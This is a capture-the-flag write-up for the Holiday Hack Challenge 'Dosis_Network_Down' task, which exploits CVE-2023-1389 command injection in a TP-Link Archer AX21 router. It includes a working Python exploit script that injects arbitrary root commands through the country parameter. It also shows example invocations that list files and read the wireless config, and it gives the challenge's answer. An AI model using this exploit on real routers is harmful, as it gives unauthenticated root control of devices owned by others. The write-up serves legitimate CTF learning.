



# Dosis_Network_Down



**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Dosis_Network_Down](https://dosis-network-down.holidayhackchallenge.com/)


## Hints
??? tip "Version"
   I can't believe nobody created a backup account on our main router...the only thing I can think of is to check the version number of the router to see if there are any...ways around it...
??? tip "UCI"
    You know...if my memory serves me correctly...there was a lot of fuss going on about a UCI (I forgot the exact term...) for that router.


## Objective

!!! question "Request"
   Drop by JJ's 24-7 for a network rescue and help restore the holiday cheer. <br/>
   What is the WiFi password found in the router's config?

??? quote "Janusz Jasinski"
Alright then. Those bloody gnomes 'ave proper messed about with the neighborhood's wifi - changed the admin password, probably mucked up all the settings, the lot.<br/>
Now I can't get online and it's doing me 'ead in, innit?<br/>
We own this router, so we're just takin' back what's ours, yeah?<br/>
You reckon you can 'elp me 'ack past whatever chaos these little blighters left be'ind?

## Solution
The challenge website notes the router firmware version and the hardware version at the bottom.
```
https://dosis-network-down.holidayhackchallenge.com/ 
```


TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219 contained a command injection vulnerability in the country form of the /cgi-bin/luci;stok=/locale endpoint on the web management interface. <br/>
Specifically, the country parameter of the write operation was not sanitized before being used in a call to popen(), allowing an unauthenticated attacker to inject commands, which would be run as root, with a simple POST request.<br/>
Ref : <br/>
[nvd.nist.gov](https://nvd.nist.gov/vuln/detail/cve-2023-1389 )<br/>

The [Github /Voyag3r-Security/CVE-2023-1389 repository](https://github.com/Voyag3r-Security/CVE-2023-1389/blob/main/archer-rev-shell.py ) notes they were test teh reverse shell on 2.1.5 Build 20211231 rel.73898(5553); Hardware Version Archer AX21 v2.0<br/>
The script ```archer-file-transfer.py``` in that repo leverages a reverse shell.<br/>
We modify that script to just take any arbitrary command to execute.

```bash linenums="1" title="CVE-2023-1389"
import requests, urllib.parse, argparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress warning for connecting to a router with a self-signed certificate
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--router", dest = "router", default = "192.168.0.1", help="Router name")
parser.add_argument("-p", "--payload", dest = "payload", default = "ls", help="attack payload")

args = parser.parse_args()

# Ashish Gupta -  Take an arbitrary command in the -payload switch to execute
payload = args.payload
url_command = "https://" + args.router + "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(" + payload + ")"

# Send the URL twice to run the command. Sending twice is necessary for the attack
r = requests.get(url_command, verify=False)
r = requests.get(url_command, verify=False)
print(f'Command to execute :{payload}')
print("########## ---Output--- ########")
print(r.text)

```

Sending the ```ls``` command to list all files. <br/>
```
python archer-rev-shell.py -r dosis-network-down.holidayhackchallenge.com -p 'ls' 
```


Sending the ```cat /etc/config/wireless``` to get the wireless config<br/>
```
python archer-rev-shell.py -r dosis-network-down.holidayhackchallenge.com -p 'cat /etc/config/wireless' 
```



The config shows the WiFi password as SprinklesAndPackets2025!<br/>

The answer is accepted. <br/>



!!! success "Answer"
   SprinklesAndPackets2025!

## Response
!!! quote "Janusz Jasinski"
    Brilliant work, that. Got me connection back and sent those gnomes packin' from the router.<br/>
    Now I can finally get back to streamin' some proper metal. BTC tips accepted, by the way.